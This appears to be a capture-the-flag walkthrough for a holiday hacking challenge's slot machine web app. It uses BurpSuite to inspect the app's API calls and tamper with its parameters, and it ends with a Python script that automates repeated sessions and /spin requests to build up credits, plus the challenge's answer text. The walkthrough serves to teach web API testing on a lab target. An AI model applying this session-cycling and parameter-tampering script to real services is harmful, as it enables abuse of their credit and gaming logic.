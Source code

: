 ## Summary
Inside the Jack Frost tower, click a slot machine and practice web api hacking!

## Steps
1. Open up BurpSuite and scope the target to the web app or start persisting network traffic in your browser's developer console. Get to know the few main web app calls that your client makes.
2. Try to get 1000+ credits!

<details>
  <summary>Hint 1</summary>
  After finding the /spin api call, I tried modifying the betamount param with N>credit_amount (like 1001) but that failed. I then tried raising the cpl field to a large ammount and also tried changing the numline but both failed as well. At this point, how could we beat the odds? Try scripting it!
</details>

<details>
  <summary>Answer</summary>

```
import requests

for i in range(0,10):
    s = requests.Session()
    s.get('https://slots.jackfrosttower.com/')
    # print(r.cookies['slots_session'])
    r = s.get('https://slots.jackfrosttower.com/api/v1/02b05459-0d09-4881-8811-9a2a7e28fd45/session')
    session_id = r.json()['data']['session_id']

    for j in range(0,10):
        h = {'X-Ncash-Token': session_id}
        r = s.post(
            'https://slots.jackfrosttower.com/api/v1/02b05459-0d09-4881-8811-9a2a7e28fd45/spin',
            data={
                'betamount':'10',
                'numline':20,
                'cpl':0.5
            },
            headers=h
        )
        if not r.json()['success'] or r.json()['data']['credit']<10:
            break
        else:
            print(r.text)
```
  
  Answer text: "I'm going to have some bouncer trolls bounce you right out of this casino!"
</details>

